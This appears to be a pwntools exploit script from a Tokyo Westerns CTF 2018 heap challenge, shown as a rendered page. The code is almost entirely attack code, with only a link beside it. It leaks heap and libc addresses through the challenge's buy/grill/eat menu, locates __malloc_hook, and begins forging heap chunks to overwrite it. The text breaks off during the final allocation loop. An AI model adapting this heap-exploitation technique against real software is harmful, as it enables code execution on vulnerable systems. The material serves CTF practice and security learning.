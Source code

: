     name='x'*0x10+p64(0xDEADBEEF11)[:5]
    buy('A'*30,123)#1
    buy(p64(0xdeadbeef11),0xe1)#2
    buy(name,123)#3
    grill(name,0)
    grill(name,1)
    eat(0)
    eat(1)
    buy('C'*39,123)
    eat(5)
    io.recvuntil(':')
    io.sendline('1')
    io.recvuntil('* ')
    io.recvuntil('* ')
    leak = u64(io.recv(6).ljust(8,'\x00'))
    log.success(hex(leak))
    heap_base = leak - 0x110
    log.success(hex(heap_base))
    io.sendlineafter('>> ','Beef')
    io.sendlineafter('>> ','1')
    buy('C'*40 + p64(heap_base + 0xb0),123)
    eat(9)
    buy(p64(heap_base + 0xd0), 123)#bypass check?
    io.recvuntil(':')
    io.sendline('1')
    io.recvuntil('121')
    io.recvuntil('* ')
    leak = u64(io.recv(6).ljust(8,'\x00'))
    io.sendlineafter('>> ','Beef')
    io.sendlineafter('>> ','1')
    
    libc_base = leak - 0x10 - 0x58 - libc.symbols['__malloc_hook']
    log.success(hex(libc_base))
    mlh = libc_base + libc.symbols['__malloc_hook']
    log.success(hex(mlh))
    
    buy(p64(mlh - 0x18),999)
    io.recvuntil(':')
    io.sendline('1')
    
    k=io.recvuntil('food na').split(' ')
    name=k[-3]
    num=(int(k[-2].split('\n')[0][1:-1]))
    left=0x100000000-num-0x1
    log.success(name.encode('hex'))
    log.success(hex(num))
    log.success(hex(left))
    io.sendlineafter('>> ',name)
    io.sendlineafter('>> ','1')
    
    while(left>0):
        if(left<0x7FFFFFFF):
            buy(name,left+0x21)
            break
        else:
            buy(name,0x7FFFFFFF)
            left-=0x7FFFFFFF
    

  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/